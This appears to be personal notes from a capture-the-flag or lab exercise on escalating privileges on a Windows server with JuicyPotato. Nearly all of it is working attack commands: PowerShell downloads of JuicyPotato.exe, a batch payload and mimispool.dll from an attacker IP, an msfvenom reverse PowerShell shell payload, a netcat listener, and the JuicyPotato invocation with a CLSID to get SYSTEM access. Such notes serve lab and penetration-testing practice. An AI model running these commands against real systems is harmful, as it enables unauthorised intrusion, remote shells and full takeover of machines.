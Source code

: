 first we need to get this exe onto the machine
`https://github.com/ohpe/juicy-potato/releases`

we use this command to grab the file from our attack machine
`powershell -c "Invoke-WebRequest" -Uri 'http://10.10.14.6:80/JuicyPotato.exe' -OutFile 'c:\inetpub\wwwroot\JuicyPotato.exe'`

---

we generate a batch file for our payload
`msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.6 lport=5555 > hax.bat`

then we grab it from the victim machine
`powershell -c "Invoke-WebRequest" -Uri 'http://10.10.14.6:80/hax.bat' -OutFile 'c:\inetpub\wwwroot\hax.bat'`

we can grab a CLSID from here: 
`https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/`

set up a listener on attacker machine
`nc -lvnp 5555`

we then execute this command to run the batch file
```
JuicyPotato.exe -l 1337 -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}" -p hax.bat -t *
```

this will give us root

powershell -c "Invoke-WebRequest" -Uri 'http://10.10.14.6:80/mimispool.dll' -OutFile 'c:\windows\temp\mimispool.dll'